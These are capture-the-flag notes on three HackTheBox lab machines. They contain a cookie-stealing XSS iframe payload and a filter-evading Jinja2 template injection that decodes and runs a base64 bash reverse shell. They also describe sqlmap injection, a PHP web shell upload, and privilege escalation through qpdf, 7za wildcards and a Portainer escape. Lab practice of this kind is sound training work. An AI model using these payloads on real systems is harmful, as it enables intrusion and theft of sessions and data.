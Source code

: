 # HTB-IClean
- Linux
- XSS cookie steal,
`<iframe src="javascript:document.location='http://IP/index.php?c='+document.cookie;">`
from the `/sendMessage` POST page in argument `service=_XSSPayload_&email=a@d.com`
So, got the `/dashboard` page cookie.
- Now the `/QRGenerator` page is vulnerable to SSTI in the `invoice_id=&form_type=scannable_invoice&qr_link=_SSTIPayload_` POST parameter. So, used the payload `{{7*7}}` and finally found it be `jinja2`.
So, the reverseshell payload used,
`{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}`
- Now got database credential from webserver file and then found credential hashes. So, cracked it and did ssh.
- `sudo -l` => `/usr/bin/qpdf` => `sudo /usr/bin/qpdf --add-attachment /root/root.txt -- dummy.pdf newdum.pdf`
(Where `dummy.pdf` is any inout pdf file and `newdum.pdf` is the output pdf file with the attachment)
- `sudo /usr/bin/qpdf --list-attachments newdum.pdf` => List attachments names.
- `sudo /usr/bin/qpdf --show-attachment=root.txt -- newdum.pdf` => See the contents of an attachment.

# HTB-Usage
- Linux
- SQL Injection on the email parameter of the forgotpassword POST request page.
So, used `sqlmap` with `--level=5 --risk=3`. And extracted the `admin` user password.
- Now logged into the laravel-admin interface and found a profile image upload option.
So, used that to execute php reverseshell.
Link: https://flyd.uk/post/cve-2023-24249/
- Now located credential of `xander` user in a hidden file.
- Privilege escalation => `sudo -l` => `/usr/bin/usage_management` i.e. a custom binary. So, downloaded on the system and opened with `ghidra` and found `7za` being called with a wildcard like `7za a /backup/$filename.zip -t7z -snl -p$pass -- *`.
Refer: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

# HTB-Runner
- Linux
- My writeup available on medium.
- Used `Cewl` to generate a wordlist.
So, now used gobuster to find a new subdomain `teamcity`.
- So, searched an exploit for `teamcity`. Refer https://github.com/Chocapikk/CVE-2024-27198/blob/main/exploit.py
So, this created an admin user with this exploit and enumerated on the admin dashboard to locate a backup zip file.
- Now in the zip file found some hashes and also a SSH private key. So, now got logged in.
- Now with linpeas found a new subdomain in the `/etc/hosts` file mapping. So, got this added and found a `portrainer` login page. So, now used one of the hash cracked user credential and got access.
- Now refer the writeup to perform a Portrainer docker escape deployment technique.
Link: https://rioasmara.com/2021/08/15/use-portainer-for-privilege-escalation/
```
device: /
o: bind
type: none
```
These are the volume driver options to setup for the root path, if the version is latest.
